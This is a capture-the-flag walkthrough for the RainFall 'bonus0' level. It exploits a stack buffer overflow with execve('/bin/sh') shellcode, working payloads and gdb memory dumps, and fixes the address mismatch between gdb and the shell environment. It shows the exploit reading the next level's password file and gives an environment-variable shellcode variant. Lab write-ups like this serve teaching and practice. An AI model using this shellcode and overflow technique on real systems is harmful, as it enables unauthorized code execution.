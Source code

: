 
 # Walkthrough bonus0
 
 We have 1 buffer with 2 read. First input is stored in the buffer at 0 -> 20. Second input is stored at 21 -> 40.
 We must fill first input with 20 chars to override the "\0".
 We have tried to write our shellcode (28 bytes). 


 ```bash
 bonus0@RainFall:~$ (python -c 'print"A" * 20'; python -c 'print"B" * 19') | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBB BBBBBBBBBBBBBBBBBBB
Segmentation fault (core dumped)

(gdb) r < <(python -c 'print("A" * 20)'; python -c 'print("B" * 14 + "c" * 4 + "d")')
Starting program: /home/user/bonus0/bonus0 < <(python -c 'print("A" * 20)'; python -c 'print("B" * 14 + "c" * 4 + "d")')
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBccccd BBBBBBBBBBBBBBccccd

Program received signal SIGSEGV, Segmentation fault.
0x63636363 in ?? ()

```
We can add our shellcode in the payload : Our payload start at 0xbffff706  

```bash
(gdb) x/24xw $esp
0xbffff6f0:	0xbffff706	0x080498d8	0x00000001	0x0804835d
0xbffff700:	0xb7fd13e4	0xc0310016	0x2f2f6850	0x2f686873
0xbffff710:	0x896e6962	0x89c189e3	0xcd0bb0c2	0x40c03180
0xbffff720:	0x424280cd	0xbffff736	0xbffff736	0xcd0b2090
0xbffff730:	0x40c03180	0x424280cd	0xbffff736	0xbffff736
0xbffff740:	0x00000090	0xbffff7d4	0xbffff7dc	0xb7fdc858
```
But we have a problem. In gdb our payload works but in our environment is not working.
```bash
r < <(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0")'; python -c 'print("\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 2 + "\x06\xf7\xff\xbf" * 2 + "\x90")')
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/bonus0/bonus0 < <(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0")'; python -c 'print("\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 2 + "\x06\xf7\xff\xbf" * 2 + "\x90")')
 - 
 - 

Breakpoint 1, 0x080485c0 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
1�Ph//shh/bin����°
                  1�@̀BB������� 
                               1�@̀BB�������
0xbffff706 in ?? ()
(gdb) ni
0xbffff708 in ?? ()
(gdb) ni
0xbffff709 in ?? ()
(gdb) ni
0xbffff70e in ?? ()
(gdb) 
0xbffff713 in ?? ()
(gdb) ni
0xbffff715 in ?? ()
(gdb) ni
0xbffff717 in ?? ()
(gdb) ni
0xbffff719 in ?? ()
(gdb) ni
0xbffff71b in ?? ()
(gdb) ni
process 3898 is executing new program: /bin/dash
[Inferior 1 (process 3898) exited normally]

bonus0@RainFall:~$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0")'; python -c 'print("\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 6 + "\x06\xf7\xff\xbf" + "\x90")'; cat) | ./bonus0 
 - 
 - 
1�Ph//shh/bin����°
                  1�@̀BBBBBB���� 
                                1�@̀BBBBBB����
id
Segmentation fault (core dumped)
```

The problem is that our environment and gdb environment are different. In fact, in gdb we have 2 env variable that not exist in our env. "COLUMNS and LINES".   
We must to unset thats variables to obtains good address.


```bash
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) r
Breakpoint 1, 0x080485ca in main ()
(gdb) x/24xw $esp
0xbffff720:	0xbffff736	0x080498d8	0x00000001	0x0804835d
0xbffff730:	0xb7fd13e4	0xc0310016	0x2f2f6850	0x2f686873
0xbffff740:	0x896e6962	0x89c189e3	0xcd0bb0c2	0x40c03180
0xbffff750:	0x424280cd	0x42424242	0xbffff706	0xcd0b2090
0xbffff760:	0x40c03180	0x424280cd	0x42424242	0xbffff706
0xbffff770:	0x00000090	0xbffff804	0xbffff80c	0xb7fdc858
```
Now our buffer start at 0xbffff736.   

```bash
bonus0@RainFall:~$ (python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0")'; python -c 'print("\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * 6 + "\x36\xf7\xff\xbf" + "\x90")'; cat) | ./bonus0 
 - 
 - 
1�Ph//shh/bin����°
                  1�@̀BBBBBB6���� 
                                 1�@̀BBBBBB6����
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```


We have an another exploit. We can stored the shellcode in env variable with export.  
``` bash
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
```
We can get address of this variable with a `getenv` function ([example](Ressources/getEnv.c)) or in gdb with `x20/s *environ`.   
Finaly, in the payload we must replace "\x36\xf7\xff\xbf" by address of env var.

